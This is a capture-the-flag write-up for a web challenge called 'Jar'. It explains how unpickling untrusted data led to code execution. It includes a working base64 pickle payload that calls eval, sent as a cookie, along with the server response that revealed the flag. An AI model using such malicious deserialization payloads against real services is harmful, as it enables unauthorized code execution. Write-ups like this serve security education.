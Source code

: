 # Jar

### Description

![](Description.png)

## Solution

Checking https://docs.python.org/3/library/pickle.html, we get a warning
```
It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.
```

After that I researched on remote code exectuion using pickle, and coded up the solution. In short, it sends an object such that unpickling it will cause it to retrieve the flag and put it into the list. The website would then display the flag.

I initially found out how to cause remote code execution but I did not know how to display the flag. It was my teammate undefined_func who did it, so shout outs to him.

Running solve.py
```
terminals database is inaccessible
gASVIgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwGW2ZsYWddlIWUUpQu
<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button><img style="width: 100%; height: 100%" src="/pickle.jpg"><div style="background-color: white; font-size: 3em; position: absolute; top: 74.30653705261622%; left: 44.16129903494589%;">actf{you_got_yourself_out_of_a_pickle}</div>
<Response [200]>
{'Content-Length': '375', 'Content-Type': 'text/html; charset=utf-8', 'Date': 'Wed, 07 Apr 2021 16:48:58 GMT', 'Server': 'Caddy, nginx/1.14.1'}
<RequestsCookieJar[]>
<RequestsCookieJar[<Cookie contents=gASVIgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwGW2ZsYWddlIWUUpQu for />]>

Process returned 0 (0x0)	execution time : 2.403 s
Press [ENTER] to continue...
```

## Flag

`actf{you_got_yourself_out_of_a_pickle}`
